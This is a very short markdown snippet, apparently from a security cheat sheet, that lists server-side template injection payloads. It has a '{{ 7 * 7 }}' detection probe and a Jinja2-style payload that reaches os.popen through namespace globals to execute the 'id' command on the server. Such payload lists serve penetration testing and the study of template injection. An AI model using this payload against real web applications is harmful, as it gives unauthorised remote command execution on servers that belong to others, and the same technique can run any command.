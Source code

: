 ###h3 SSTI Payloads

##Test Payloads
```
{{ 7 * 7 }}
```
```
Test for System Execution
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```
